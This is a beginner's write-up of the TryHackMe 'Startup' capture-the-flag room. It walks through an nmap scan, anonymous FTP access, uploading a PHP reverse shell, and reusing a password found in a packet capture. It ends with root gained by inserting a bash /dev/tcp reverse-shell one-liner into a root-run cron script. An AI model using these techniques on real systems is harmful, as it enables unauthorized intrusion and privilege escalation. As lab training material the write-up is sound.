







# TryHackMe: Startup CTF Writeup

## Introduction

This is my first CTF writeup. It will cover on how I did the enumeration, exploitation and privilege escalation. The challenge is rated easy. This room is about a startup called Spice Hut company who are worried about their security and are unsure if their developers are doing it right. So our job as pentester is to find root and will do just that.

## Scanning with Nmap 

First let's scan with nmap and also checking out as many ports as possible at same time so nothing is missed out. 

Syntax- nmap -sV -sC -p- IP

After scanning there are 3 ports that are open, these ports are 21,22 and 80.

However if you notice there's anonymous login allowed in ftp port which means we can access it without requiring specific user account.

## FTP enumeration

After logging as Anonymous in ftp port, there are apparently 2 files with one of them being text file. Perhaps we will find something useful from these two files. 

Syntax- ftp IP

When checking there was nothing important found in these two files, while the text file had a name but that's still vague so before we can try anything lets check the browser.

The browser didn't have anything, using dev tools there was no giveaway even though the dev comment mentions they haven't updated anything yet.

Unfortunately we are still at Dead end with nothing useful even after getting ftp access and finding files. Instead what we can do is move on to Directory Enumeration with Gobuster. 

## Directory enumeration with GoBuster

Let's use gobuster to find out if we can find any files in the webdirectory which we couldn't find through ftp. 

Syntax- gobuster dir -u "target_IP" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

After searching through gobuster, there is files directory. In that directory it has ftp which was found same as in the port. This confirmed the FTP directory was accessible via the web server.

## Web enumeration

Now after checking through the webdirectory in the browser, it had same files that was found in ftp thus there might be more to this.

when checking ftp directory there was nothing in there, and if we remember the ftp directory in the port 21, There was full permission for ftp which can only mean one thing.

What we can do here is to upload php reverse shell into ftp directory and hopefully get ssh access.

## Reverse Shell Exploit

After uploading php reverse shell, we will then start a listener from our side. We will access the php reverse shell.

Syntax- put php-reverse-shell.php

And The reverse shell has worked, now we just spawn the bash shell with python to make it easier navigating files.

Syntax- python3 -c 'import pty; pty.spawn("/bin/bash")'

When checking the files in current directory, there's a text file.

The recipe.txt file has the answer for the first task question.

Next task we will need to find out user.txt, so we need to find a user account to access the flag, lets check navigate around and check if theres any name.

## Privilege Escalation

After navigating around the files, there are 2 notable mentions, first is incidents which has .pcapng in it which is really suspicious and it can be checked with wireshark to see if we can know anything useful about it. Other is in home directory, it has name as lennie which is obviously blocked from accessing it however that's probably the user we will need to get access for the next flag.

first lets download the .pcapng file and check with wireshark. 

Syntax- python3 -m http.server 8000 

        wget <local_IP>:8000/filename

Apparently the attacker had made an attempt before to access before and did it similar as we are doing it however they didn't get the access while trying to brute force but we stil get to know the password they attempted to use. Which could probably what we need for lennie account we had found.

We will try to access ssh credentials of lennie account and see if it works. Which it did and we are in.

Not only that we are in directory where user flag is for the task 2 question.

With this flag done, now we only have one more flag left and its for root which we were asked to reach. For that, we will now navigate to see if theres any clues to escalate further.

I have checked in lennie's directory to see if theres any giveaway, there was some text files but they didn't mention anything important we need to know. However there was script folder, in that apparently there was planner.sh file and that file was run by root. This is very big clue and not only that.

In that file there was another .sh and after checking the content, i found the permissions of print.sh has full permissions for the user account. 

There's one more thing to note in user's directory, the text file has been running every minute as i rechecked permissions again, which means this is a cronjob and that means if we drop a reverse shell inside print.sh file which has full permissions for the user account we are using and then let it run after being modified which we can then do a listener to confirm if we are able to get the root privileges or not.

First, we will modify the print.sh with nano editor and then listen in our local machine with netcat and wait for abit.

Syntax- bash -i >& /dev/tcp/Local_IP/port 0>&1

And we are done, we have got the root access to the target and so is the flag for our final task.

## Conclusion

This CTF tests the basics very well and understanding how to leverage FTP Anonymous access as well as exploit cronjob for privilege escalation. Thank you for reading this and hope it helps others.

